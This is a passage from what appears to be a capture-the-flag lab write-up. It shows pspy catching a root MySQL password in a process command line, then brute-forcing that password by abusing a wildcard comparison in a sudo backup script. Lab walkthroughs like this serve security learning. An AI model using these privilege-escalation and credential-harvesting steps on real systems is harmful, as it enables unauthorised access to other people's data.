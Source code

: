 I’ll set it as executable and run it:

```

joshua@codify:/dev/shm$ ./pspy64          
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d 
...[snip]...

```

Once it gets through all the start up, in a different session as joshua, I’ll run the script again, entering “\*” as the password. PSpy won’t catch it every time, but after a run or two, I’ll catch the command line for `mysqldump`:

```

2024/04/04 16:46:17 CMD: UID=0     PID=3758   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES; 

```

The password is “kljh12k3jhaskjh12kjh3” (as `-p` is the flag for the password).

#### Brute Force Password

The trickier route is to abuse the unsafe comparison with wildcards to test the password. For example if I enter “a\*” as the password, it fails:

```

joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmation failed!

```

If I enter “k\*”, it works:

```

joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmed!
...[snip]...

```

I can give the password without waiting for the prompt as well, but piping it into the process:

```

joshua@codify:~$ echo "*" | sudo /opt/scripts/mysql-backup.sh 

Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
...[snip]...

```
